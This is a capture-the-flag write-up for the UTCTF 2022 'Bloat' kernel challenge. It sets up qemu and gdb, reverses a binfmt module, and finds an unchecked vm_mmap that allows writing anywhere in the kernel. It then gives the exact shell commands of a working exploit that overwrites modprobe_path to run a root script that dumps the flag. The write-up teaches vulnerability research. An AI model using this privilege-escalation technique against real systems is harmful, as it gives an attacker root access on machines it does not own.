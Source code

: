**Bloat**

was a kernel exploitation challenge from UTCTF 2022.

It was a very basic kernel challenge, and make a good introduction to kernel vulnerability exploitation..



As often with kernel challenges, we were given a kernel image "bzImage", 

an initramfs image containing the root filesystem named "rootfs.cpio.gz"

and script to launch the challenge via qemu.

first we extracted the filesystem like this:

```sh
mkdir rootfs
cd rootfs
zcat rootfs.cpio.gz | sudo cpio -idv
```

We use sudo in our commands, because some files are going to be created as root user in the original filesystem.

we inspect the filesystem, and found a custom module named "bloat.ko"

that will be that module that we have to exploit.

if you want to make any modifications to the filesystem, like adding tools, changing user to root, or anything you will need to 

work.. you will have to re-create the rootfs.cpio.gz archive like this:

```sh
cd rootfs
sudo find . | sudo cpio --create --format=newc | gzip -9c > ../rootfs.cpio.gz
```



The bzImage can be extracted to a vmlinux (uncompressed version), with the extract-vmlinux tools that you will find in linux kernel source code directory, in the scripts/ sub-directory.

The version given is stripped from debug info, and symbols , which is painful to work..

You can still extract symbols from with this tool:

https://github.com/marin-m/vmlinux-to-elf.git

it will create a vmlinux.elf from your vmlinux file, with some symbols useful for debugging, like this:

```sh
vmlinux-to-elf vmlinux vmlinux.elf
```

to launch the QEMU virtual machine with the kernel and the initramfs filesystem with gdb debugging

you can use:

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel bzImage \
    -initrd rootfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "rootwait root=/dev/vda console=ttyS0 kpti=1 panic=1 nokaslr quiet" \
    -s -S
```

this will launch the vm with gdb waiting for connection on local port 1234.

You can also put a fake flag , in a "flag.txt" file, qemu will map it as a drive  to /dev/sda (only accessible by root user)

that's the flag that you will have to dump, when you will have succeed in exploiting the module vulnerability, and escalate to root user..

in another windows terminal just do:

```sh
gdb -ex 'set architecture i386:x86_64' -ex 'target remote localhost:1234' -ex 'add-symbol-file bloat.ko 0xffffffffc0000000' -ex 'b load_bloat_binary' -ex 'c' ./vmlinux.elf
```

we will add symbols from the bloat.ko module in the gdb command line, and set a breakpoint at the main function of the module, and continue the execution. I recommend you to use GEF or PWNDBG gdb extension , to make the debugging easier..

In the other windows, you will see the kernel booting...

You can interrupt the VM execution anytime by pressing CTRL+c in gdb windows.. to inspect, modify, etc..

that was our basic setup..



Now let's reverse the bloat.ko module:

![reverse](./pics/reverse.png)



So as the challenge description says,  the module add a new binfmt format, via the kernel module.

If you don't know what binfmt is, you can read basic description here:

https://en.wikipedia.org/wiki/Binfmt_misc

The module register a  basic binary format that consists only of a QWORD containing the wanted mapping address in memory,

and after it, the code to be executed. 

The maximum file size is 256 bytes, and the filename extension must be '.bloat'



When you will try to execute this rudimentary executable, the kernel will pass it to all the binfmt handlers registered,

and when it will be recognized by one of them, it will process the executable.



**So what is the vulnerability here in the module?**

Well.. 

The vm_mmap try to map a RWX zone of 256 bytes at the address in the QWORD to store the code of the .bloat executable.

But it does not check if the mapping success, or return an error..

And it continue the execution to the loop that copy the data from the file, to the address in the QWORD.

So if we give a kernel address that is writable, the vm_mmap() call will failed, but the data will be copied to our destination..

basically, it is a "write anywhere primitive"...



<u>question:</u>

 what is the simplest way to have code execution with a write primitive in a recent kernel?

<u>answer:</u>

overwriting `modprobe_path`.

if you don't know about that method, there is a writable `modprobe_path` variable in recent kernel, that contains the path to the 

modprobe binary, that will be executed in case kernel needs to load a module.

```
the kernel executes `call_modprobe` which creates a user-space process with root privileges. `modprobe_path` is a global variable (`char [256]`) pointing to `/sbin/modprobe` by default (and can be set to an arbitrary path via `sysctl kernel.modprobe`).
```

you can found a good explanation here:

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/



So in gdb we just have to check the `modprobe_path` address:

![gdb1](./pics/gdb1.png)

ok so the exploitation will be very straightforward now:

we will create a ".bloat" executable , that overwrite `modprobe_path`  value with a "/tmp/a" string:

`echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00" > /tmp/x.bloat`



then we create a ""/tmp/a" executable, that will contain a script dumping the flag to a file in /tmp:

`echo -e "#!/bin/sh\ncat /dev/sda > /tmp/flag" > /tmp/a`

we create also a fake binary that will launch the modprobe binary from kernel when we try to execute it..

`echo -ne "\xff\xff\xff\xff" > /tmp/b`

we change permissions to executable for all this files:

`chmod a+x /tmp/a /tmp/b /tmp/x.bloat`

then we execute the /tmp/x.bloat first, 

then the /tmp/b fake executable..  and it will launch /tmp/a that dump the flag in /tmp/flag...

we just have to read /tmp/flag now... and that's finish !

![gotflag](./pics/gotflag.png)

**nobodyisnobody still pwning things..**